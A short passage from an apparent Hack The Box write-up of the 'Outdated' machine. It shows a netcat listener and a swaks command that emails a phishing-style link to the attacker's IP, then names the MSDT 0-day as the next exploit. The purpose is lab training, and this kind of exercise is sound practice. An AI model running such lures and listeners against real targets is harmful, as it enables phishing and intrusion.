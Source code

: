 ![image.png](/assets/Images/HTB_Outdated/image%201.png)

We can test the mail server by giving out IP 

```bash
nc -lnvp 80
```

```bash
swaks --to itsupport@outdated.htb --from pain@mewo.htb --server mail.outdated.htb --body "http://10.10.14.109/" --header "Subject:Internal Web App request"
```

So as netcat output says its a WindowsPowershell that is used to connect to us back

By the Version of WIndowsPowerShell there is a Famous Exploit `MSDT 0-day`

![image.png](/assets/Images/HTB_Outdated/image%202.png)